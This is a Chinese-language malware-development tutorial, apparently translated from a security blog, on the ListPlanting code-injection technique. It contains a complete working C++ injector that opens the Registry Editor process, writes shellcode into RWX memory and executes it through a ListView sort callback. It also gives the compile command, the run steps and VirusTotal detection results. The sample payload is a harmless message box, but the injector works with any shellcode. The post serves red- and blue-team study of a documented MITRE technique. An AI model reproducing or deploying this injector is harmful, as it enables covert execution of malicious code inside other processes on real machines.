








\newpage
\subsection{恶意软件开发技巧：Listplanting（C++ 示例）}

大家好，网络安全爱好者们和白帽子们！

这篇文章是我自己对恶意软件开发技巧——Listplanting——研究的结果。

{width="80%"}

通过 `LVM_SORTGROUPS`、`LVM_INSERTGROUPSORTED` 和 `LVM_SORTITEMS` 消息，可以修改 ListView 控件的项和分组的排序行为，以适应各自的偏好。

列表视图控件是显示成组事物的用户界面窗口。`SysListView32` 控件把应用程序列表视图设置的相关信息保存在进程内存中。

ListPlanting 的做法是：把代码复制到使用列表视图控件的进程的虚拟地址空间中，然后把这段代码用作排序列表项的自定义回调函数。

### 实战示例

我们来看一个实战例子。这个技巧相当简单：

首先，获取窗口句柄：

```cpp
HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);
```

然后，获取进程 ID 并打开它（用 `OpenProcess` 获得进程句柄）：

```cpp
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

下一步，我们通过 `VirtualAllocEx` 分配 RWX 内存并「复制」载荷：

```cpp
mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// copy payload
WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);
```

最后，触发载荷：

```cpp
// trigger payload
PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);
```

根据文档，`PostMessage` 把（投递）一条消息放入与创建指定窗口的线程相关联的消息队列中，然后返回，不等待该线程处理这条消息。

我的 PoC 的完整源代码：

```cpp
/*
hack.cpp
code injection Listplanting
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/27/malware-tricks-24.html
*/
#include <windows.h>
#include <commctrl.h>
#include <iostream>
#pragma comment (lib, "user32.lib")

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE ph;
  DWORD pid;
  LPVOID mem;

  // find window
  HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
  HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);

  // obtain the process id and try to open process
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  // allocate RWX memory
  mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT,
  PAGE_EXECUTE_READWRITE);

  // copy payload
  WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);

  // trigger payload
  PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);

  // free memory
  VirtualFreeEx(ph, mem, 0, MEM_DECOMMIT | MEM_RELEASE);
  CloseHandle(ph);

  return 0;

```

如你所见，和往常一样，为了简单起见我们使用 meow-meow 消息框作为载荷：

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### 演示

我们来看一切实际运行的样子。编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后，在受害机器上运行注册表编辑器（我的例子是 Windows 10 x64）：

{width="80%"}

然后，运行我们的 `hack.exe`：

```powershell
.\hack.exe
```

{width="80%"}

{width="80%"}

请以管理员身份运行，因为向注册表编辑器（`regedit.exe`）注入需要提升的权限。

为了确认效果，请以管理员身份运行 Process Hacker 2 并检查内存标签页：

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了 :)

我们把 `hack.exe` 上传到 VirusTotal：

{width="80%"}

所以，71 个 AV 引擎中有 19 个把我们的文件检测为恶意。

<https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection>

这项技术被 InvisiMole 使用。InvisiMole 是一款模块化间谍软件，InvisiMole 组织至少从 2013 年起就在使用它。

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[ATT&CK MITRE: ListPlanting](https://attack.mitre.org/techniques/T1055/015/)  
[InvisiMole](https://attack.mitre.org/software/S0260/)  
[PostMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-27-malware-tricks-24)
